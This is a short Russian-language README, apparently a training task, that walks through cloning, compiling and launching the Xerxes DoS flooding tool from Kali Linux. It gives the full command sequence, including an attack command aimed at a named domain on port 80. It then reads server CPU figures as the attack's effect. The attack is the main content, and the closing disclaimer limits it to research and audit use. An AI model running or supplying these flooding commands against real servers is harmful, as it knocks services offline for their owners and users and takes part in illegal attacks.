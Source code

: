 # 💀 XERXES – самый мощный инструмент для DoS-атаки с использованием Kali Linux

-- Как использовать Xerxes при запуске атаки DOS.

Инструменты DDOS способны создавать большие нагрузки на HTTP-серверы и вызывать большую нагрузку на ресурсы серверов.

Что такое DOS-атака?
Тип атаки, которая флудит серверы или сети, что приводит к тому, что источник недоступен для конечных пользователей.

Xerxes – это простой мощный инструмент для DoS-атаки с использованием Kali Linux

Используйте Xerxes из Github для этого выполните следующие команды:

``` bash
git clone https://github.com/XCHADXFAQ77X/XERXES.git
```
Затем перейдите в директорию.

```
cd xerxes
```

Далее вы должны скомпилировать с помощью GNU GCC

``` bash
gcc xerxes.c -o xerxes
```

Чтобы начать атаку укажите IP-адрес либо домен и порт. Например:

``` bash
./xerxes tsarev.biz 80
```
![image](/Cyb04-onl//💀Task8/img/curl-site-x.png)

![image](/Cyb04-onl/💀Task8/img/x1.png)

## Как видеть результат атаки, возросшая нагрузка на процессор?

Значение `us (user space)` составляет 5.9%, а `sy (system space)` — 4.8% на двухядерном процессоре, это может означать следующее:


   - Для двухядерного процессора максимальное использование CPU составляет 200% (100% на каждое ядро).
   - В вашем случае, общее использование CPU можно оценить как сумму `us` и `sy`:
     - `us + sy = 5.9% + 4.8% = 10.7%`
   - Это означает, что в данный момент ваш процессор используется на 10.7% от его общей мощности.

### Заключение

В данный момент нагрузка увеличилась на 10.7% 

![image](/Cyb04-onl/💀Task8/img/x2.png)



❗ Примечание: Информация только для исследования, обучения или проведения аудита. Применение в корыстных целях карается законом.